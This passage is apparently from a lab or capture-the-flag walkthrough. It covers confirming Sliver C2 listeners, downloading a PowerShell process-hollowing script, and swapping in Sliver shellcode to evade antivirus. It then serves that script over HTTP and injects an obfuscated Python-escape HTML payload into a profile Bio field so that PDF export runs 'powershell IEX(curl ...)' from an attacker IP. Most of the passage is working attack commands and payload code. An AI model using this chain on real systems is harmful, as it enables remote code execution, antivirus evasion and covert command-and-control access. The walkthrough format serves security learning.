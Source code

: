 6. Confirm listeners are running using `jobs`
![](https://cdn-images-1.medium.com/max/1000/1*FNRz-_6UPKGzh4_uWCf_bQ.png) 


##### Modifying the DynWin32 Process Hollowing Script

We’ll use [DynWin32-ShellcodeProcessHollowing.ps1](https://gist.github.com/qtc-de/1ecc57264c8270f869614ddd12f2f276#file-dynwin32-shellcodeprocesshollowing-ps1), which uses dynamically resolved Win32 APIs and reflection to perform process hollowing; ideal for bypassing AV.

1. Download the script

    ```bash
    wget https://gist.githubusercontent.com/qtc-de/1ecc57264c8270f869614ddd12f2f276/raw/c5810a377af12b21629f25cd60b2e9c42713b8e8/DynWin32-ShellcodeProcessHollowing.ps1 -O shell.ps1
    ```
2. Copy the created sliver shellcode array from `staged.txt`

    ![](https://cdn-images-1.medium.com/max/1000/1*A_gU5zLJW1xbM50k8YtQVw.png)

3. Modify the PowerShell script

    Replace the `$SHELLCODE` array in `shell.ps1` with the one you copied.

    ![](https://cdn-images-1.medium.com/max/1000/1*gwzPCtZwDx1K_3viGVdx7w.png)

4. Start an HTTP server to serve `shell.ps1`
    ```bash
    python3 -m http.server 80
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*Qqaseuf-0Srxxy8CpOoFxA.png)

#### Final Payload – HTML Injection for Code Execution

Inject the following payload into the Bio field and trigger the Export Profile functionality again

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell.exe -c IEX(curl -useb http://10.10.16.39:80/shell.ps1)') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
               exploit
</font></para>
```
> Make sure to replace the IP with your own attacker IP and ensure the HTTP server is running.

Once the profile is exported, the PDF generation will process the payload and trigger PowerShell execution via curl, fetching your shell script.
![](https://cdn-images-1.medium.com/max/1000/1*E1YmCX26OQXiv508_7-dFg.png) 

Wait a few minutes, and you should receive a Sliver session.

![](https://cdn-images-1.medium.com/max/1000/1*xhBN8HBiaPea50uGMp9znA.png)
